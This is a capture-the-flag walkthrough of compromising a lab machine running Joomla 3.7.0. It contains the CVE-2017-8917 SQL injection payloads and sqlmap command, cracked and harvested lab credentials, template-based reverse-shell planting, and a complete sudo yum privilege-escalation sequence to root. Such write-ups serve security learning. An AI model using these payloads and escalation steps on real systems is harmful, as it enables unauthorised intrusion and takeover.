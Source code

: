 ﻿# ENUMERATION
---

## OPEN PORTS
---


| PORT | STATE | SERVICE |
| :--- | :---- | :------ |
| 22 | open | ssh |
| 80 | open | http |
| 3306 | open | mysql |

We got 3 open ports, let's take a look at the website:

![Pasted image 20241121165122.png](../../IMAGES/Pasted%20image%2020241121165122.png)

Seems like a simple website, let's try to fuzz in order to find anything, if not, I think that login part is interesting and we could go back to check any vulnerability in it

## FUZZING
---

![Pasted image 20241121165255.png](../../IMAGES/Pasted%20image%2020241121165255.png)

We found a lot of directories, let's take a look at `/administrator`

![Pasted image 20241121170507.png](../../IMAGES/Pasted%20image%2020241121170507.png)

Got a login page for admin in this, if we look around the page source, we are able to identify this is `Joomla 3.7.0`


# RECONNAISSANCE
---

![Pasted image 20241121170613.png](../../IMAGES/Pasted%20image%2020241121170613.png)
Searching up for an exploit related to this version, we find this, a [SQL Injection](../../Bug%20Bounty/Vulnerabilities/SERVER%20SIDE%20VULNERABILITIES/INJECTIONS/SQLI/SQL%20INJECTION%20(SQLI).md) vulnerability, let's take a look at the exploit itself:


```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
 Type: boolean-based blind
 Title: Boolean-based blind - Parameter replace (DUAL)
 Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

 Type: error-based
 Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
 Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

 Type: AND/OR time-based blind
 Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
 Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
 
```

We can either use sqlmap or an exploit developed in python, I used the exploit as it is way more easier to retrieve the data:

```ad-hint

#### Exploit 

[exploit](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
)

##### Output
---


We got the user `jonah` and a password in a hash formato, let's crack that hash using `john`

hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`


#### John
----


got password `spiderman123`


```

![Pasted image 20241121175307.png](../../IMAGES/Pasted%20image%2020241121175307.png)

We are inside the panel, let's begin with exploitation to get our reverse shell

# EXPLOITATION
---


Once we are inside the panel, if we go to templates, we see the following:



![Pasted image 20241121175454.png](../../IMAGES/Pasted%20image%2020241121175454.png)

If we dig up further, we notice we are able to modify the `index.php` in order to put a reverse shell:



![Pasted image 20241121175549.png](../../IMAGES/Pasted%20image%2020241121175549.png)

Put the reverse shell, set up listener, refresh the page and get the shell:

![Pasted image 20241121180244.png](../../IMAGES/Pasted%20image%2020241121180244.png)

Once we got our shell, let's [stabilize](../../Commands/Shell%20Tricks/STABLE%20SHELL.md) it and try to get anything useful:

![Pasted image 20241121180409.png](../../IMAGES/Pasted%20image%2020241121180409.png)

We have now an stable shell, let's take a look at how many users are in this machine:


![Pasted image 20241121180459.png](../../IMAGES/Pasted%20image%2020241121180459.png)

Two users, `jjameson` and `root`, we need some sort of way to get jameson's password to switch into that user, if we take a look at previous pictures, we have a `configuration.php` file, let's `cat` on it:


![Pasted image 20241121180633.png](../../IMAGES/Pasted%20image%2020241121180633.png)

Nice, we found the password, let's switch users:


```ad-note

#### Credentials
---

`jjameson` : `nv5uz9r3ZEDzVjNu` 
```

![Pasted image 20241121180958.png](../../IMAGES/Pasted%20image%2020241121180958.png)

Nice, we were able to switch users. Let's proceed with privilege escalation


# PRIVILEGE ESCALATION
---


## SUDO -L


If we use `sudo -l` on `jjameson`, we get the following:


![Pasted image 20241121181128.png](../../IMAGES/Pasted%20image%2020241121181128.png)

We are able to run sudo in `/usr/bin/yum`, if we check what [GTFOBINS](https://gtfobins.github.io/) have for us, we get this:

![Pasted image 20241121181231.png](../../IMAGES/Pasted%20image%2020241121181231.png)

So, in order to get a root shell, we need to do the following:

```ad-summary

1. `TF=$(mktemp -d)`
2. `cat >$TF/x<<EOF`
3. `[main]`
4. `plugins=1`
5. `pluginpath=$TF`
6. `pluginconfpath=$TF`
7. `EOF`
8. `cat >$TF/y.conf<<EOF`
9. `[main]`
10. `enabled=1`
11. `EOF`
12. `cat >$TF/y.py<<EOF`
13. `import os`
14. `import yum`
15. `from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE`
16. `requires_api_version='2.1'`
17. `def init_hook(conduit):`
18. ` os.execl('/bin/sh','/bin/sh')`
19. `EOF`
20. `sudo yum -c $TF/x --enableplugin=y`

#### PoC
---


Got a shell as root and like that, CTF is over.

```


